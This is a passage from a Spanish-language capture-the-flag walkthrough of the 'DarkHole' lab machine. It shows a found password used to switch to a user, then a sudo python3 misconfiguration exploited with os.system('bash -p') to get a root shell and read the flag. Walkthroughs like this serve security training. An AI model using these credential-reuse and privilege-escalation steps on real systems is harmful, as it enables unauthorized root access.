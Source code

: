```
P0assw0rd losy:gang
```

Parece ser la contraseña de losy, vamos a intentar cambiar de usuario:
```
jehad@darkhole:/home/losy$ su losy
Password: 
losy@darkhole:~$ whoami
losy
```

Ahora nos hemos convertido en losy, y tenemos sus credenciales, vamos a ver los privilegios que tenemos:

```
losy@darkhole:~$ sudo -l
[sudo] password for losy: 
Matching Defaults entries for losy on darkhole:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```

Podemos ejecutar python con privilegios, esto es crítico, pues podemos ganar acceos al sistema como root facilmente:

```
losy@darkhole:~$ sudo /usr/bin/python3
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("bash -p")
root@darkhole:/home/losy# whoami
root
root@darkhole:/home/losy# 
```
Nos hemos convertido en root, pues mediante python utilizando la librería os podemos ejecutar comandos en el sistema.

Vamos a buscar la flag:
```
root@darkhole:~# cat root.txt 
DarkHole{'Legend'}
```

¡Listo! Hemos terminado la intrusión.

Nos vemos, hasta la próxima.
